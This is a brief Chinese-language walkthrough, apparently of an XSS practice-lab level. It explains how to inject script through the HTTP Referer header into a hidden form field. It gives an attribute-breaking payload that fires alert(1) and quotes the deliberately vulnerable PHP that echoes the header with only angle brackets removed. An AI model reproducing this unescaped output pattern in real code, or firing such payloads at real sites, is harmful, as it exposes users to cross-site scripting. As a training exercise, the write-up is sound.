


# 知识点：
请求头referer xss注入
# 思路：
payload
```
Referer:" type="text" onclick="javascript:alert(1)" "
```
发现有隐藏的表单<br /><br />查看源码可以发现只有t_ref可以进行xss注入并且要通过referer请求头进行注入

```php
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_SERVER['HTTP_REFERER'];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_ref"  value="'.$str33.'" type="hidden">
</form>
</center>';
?>
```

